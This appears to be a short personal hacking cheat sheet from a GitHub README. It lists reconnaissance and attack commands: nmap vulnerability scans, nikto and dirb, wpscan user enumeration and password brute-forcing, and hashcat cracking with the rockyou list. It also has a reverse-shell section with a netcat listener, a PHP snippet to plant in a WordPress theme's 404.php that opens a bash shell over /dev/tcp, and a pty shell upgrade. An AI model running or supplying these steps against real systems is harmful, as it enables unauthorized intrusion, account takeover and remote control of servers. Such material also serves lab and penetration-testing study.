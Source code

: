 ﻿# Hacking-Tool
https://www.whois.com/whois
https://wigle.net/
https://gchq.github.io/CyberChef/

exiftool <bild.png>

## Scan
### Nmap
    scans ports on a server
    nmap -A -p 22,80,443 <ip>
    nmap --script vuln -p 22,80,443 <ip>
### nikto
    scans /xyz
    nikto -h http://<ip>/ -nossl
### Directory scan
    dirb http://<ip>
### Wordpress scan
    scans Wordpress sites
    wpscan --url http://<ip>/ -et -ep -eu 
    wpscan --url http://<ip>/ --wp-content-dir -et -ep -eu
    Bruteforcing wordpress:
    wpscan --url http://<ip>/ --wp-content-dir -eu -P <file>.dic

## asdf
  ### hashcat
    Cracks hash
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt //
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt --show

## reverse shell
### listener
    nc -lvp <port>
### php // wordpress
    Go to appearance -> editor -> Put the code in 404.php
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
    ?>
### must be run from a terminal
	python -c 'import pty;pty.spawn("/bin/bash");'


## Else
### Files
#### download
    wget <url>
#### Sort file and remove duplication
    sort <file> | uniq > sort_<file>
    wc -l sort_<file>
